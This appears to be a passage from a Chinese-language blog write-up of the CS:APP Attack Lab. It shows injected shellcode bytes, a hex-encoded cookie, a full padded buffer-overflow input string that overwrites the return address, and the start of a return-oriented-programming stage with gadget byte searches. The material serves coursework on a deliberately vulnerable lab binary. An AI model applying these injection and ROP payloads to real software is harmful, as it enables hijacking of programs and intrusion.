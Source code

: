 (2).将注入代码转换为字节表示

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   ff 34 25 fa 18 40 00    pushq  0x4018fa
   e:   c3                      retq
```

(3).将`cookie`转化为16进制

```
35 39 62 39 39 37 66 61 00
```

(4).构造输入字符串

![YdTSWq.png](https://s1.ax1x.com/2020/05/13/YdTSWq.png)

```
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3  //inject code
30 31 32 33 34 35 36 37 38 39  //pad
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36
78 dc 61 55 00 00 00 00 	// return address 
35 39 62 39 39 37 66 61 00 	// cookie
```

## 4. ROP攻击

与`ctarget`相比，`rtarget`使用了两种技术来防止被攻击

* 栈随机化
* 将栈所在内存标记为不可执行 

为此人们提出了return-oriented-programming(ROP)攻击方法。此方法的核心思想是：不再进行代码注入，而是在已有代码中寻找那些以`ret`结尾的，对我们有用的代码(gadget)。将这些代码的地址以字符串的形式存放在缓冲区中，当程序执行ret指令时会造成一连串的gadget被执行。

以下图为例，当程序执行`ret`指令时，从栈中将gadget1的地址弹出，放到`rip`中，程序转而去执行gadget1的代码，然后执行`ret`，从栈中将gadget2的地址弹出，放到`rip`中，程序转去gadget2执行...

![YdO9p9.png](https://s1.ax1x.com/2020/05/13/YdO9p9.png)

### 4.1. Level4

在这一阶段中，我们其实是重复代码注入攻击中第二阶段的任务，劫持程序流，返回到`touch2`函数。只不过这次我们要做的是ROP攻击，这一阶段我们无法再像上一阶段中将指令序列放入到栈中，所以我们需要到现有的程序中，找到我们需要的指令序列。

解题思路：

![YdvWcj.png](https://s1.ax1x.com/2020/05/13/YdvWcj.png)

(1).在`start_farm`和`middle_farm`之间寻找gadget

`popq %rax`的字节表示为`58`，`movq %rax,%rdi`的字节表示为`48 89 c7`
